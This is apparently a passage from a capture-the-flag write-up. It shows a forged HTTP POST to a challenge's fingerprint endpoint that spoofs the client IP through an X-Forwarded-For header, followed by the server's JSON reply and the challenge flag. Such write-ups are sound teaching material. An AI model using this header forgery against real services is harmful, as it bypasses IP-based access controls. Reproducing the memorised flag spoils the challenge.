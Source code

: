 So we should just be able to POST this data to /api/fingerprint to be able to watch the livestream, but there's one more thing: the IP is not taken from the JSON.

Thankfully, to forge the IP we can just add a X-Forwarded-For header:

```
POST /web5-6b3799be4300e44489a08090123f3842e6419da5/api/fingerprint HTTP/1.1
Host: gamebox1.reply.it
Content-Length: 267
Content-Type: application/json
X-Forwarded-For: 52.29.7.52
Cookie: session=<SESSION COOKIE>
Connection: close

{"data":"0gjDrNT6J3t7OwaPqN0aiG9aycUIvoMv3okiWT3LEgX2+QRnyWJ2pDdRnYpFBbdcX5VGXdd/bd4RSjOAyqJXxkoGh9TOAJdr1zaA7FSQcB5/3/LTd5iT9mcZP4AeihxZ3cpSfhLHSPix6Q1bVJTzOnV518Rp35ZeTCs7b05F4kA5Gq5ugOm5rJ1MsyneNlLGx6v1MkQQKG991rN47KRopcXyc5okPg9lnSPkeMGctQWMiVQmdDyIYWVuEMCG/+TR"}
```

And the result:

```
{"device_data":{"ip":"52.29.7.52","language":"en-US","mobile":false,"os":"Unknown","screen_height":600,"screen_width":800,"timezone":0,"user_agent":"!**GOBECCOJUNIORS**!","webdriver":true},"device_id":"a4b6a4da760e000eb288534fc1823cac15adfe65007bcb3b12dbf95dc979f920"}
```

With that, we can now watch the livestream to get the flag!

![](/assets/images/posts/SfjokZj.jpg)

## Flag

`{FLG:#D1v3ntaN0_C4TTiv1_i_B3cch1$}`